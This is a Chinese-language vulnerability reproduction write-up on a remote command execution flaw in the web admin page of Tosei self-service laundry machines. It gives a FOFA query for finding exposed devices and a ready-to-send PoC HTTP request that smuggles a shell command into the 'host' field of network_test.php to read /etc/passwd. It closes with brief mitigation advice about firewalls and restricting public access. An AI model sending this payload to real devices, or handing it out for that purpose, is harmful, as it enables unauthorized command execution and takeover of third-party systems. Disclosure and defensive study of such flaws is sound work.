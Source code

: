 
# Tosei 自助洗衣机 network\_test.php RCE 漏洞复现

### 0x01 产品简介

Tosei 自助洗衣机 是日本 Tosei 公司的一个产品。

### 0x02 漏洞概述

Tosei 自助洗衣机 web 管理端存在[安全漏洞](https://so.csdn.net/so/search?q=%E5%AE%89%E5%85%A8%E6%BC%8F%E6%B4%9E&spm=1001.2101.3001.7020)，攻击者利用该漏洞可以通过 network\_test.php 的命令执行，在服务器任意执行代码，获取服务器权限，进而控制整个服务器。

### 0x03 复现环境

FOFA：body="tosei\_login\_check.php"

![](assets/1703152960-c28c94df6797bfb2886286011b2740fb.png)

### 0x04 漏洞复现

PoC

```cobol
POST /cgi-bin/network_test.php HTTP/1.1
Host: {{Hostname}}
Content-Type: application/x-www-form-urlencoded
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

host=%0acat${IFS}/etc/passwd%0a&command=ping
```

### ![](assets/1703152960-1f70d1ae8a5518ff340f4f8920ef0eaf.png)0x05 修复建议

官方暂未修复该漏洞，请用户联系厂商修复漏洞：https://www.tosei-corporation.co.jp/product-coin/

通过防火墙等安全设备设置访问策略，设置白名单访问。

如非必要，禁止公网访问该系统。
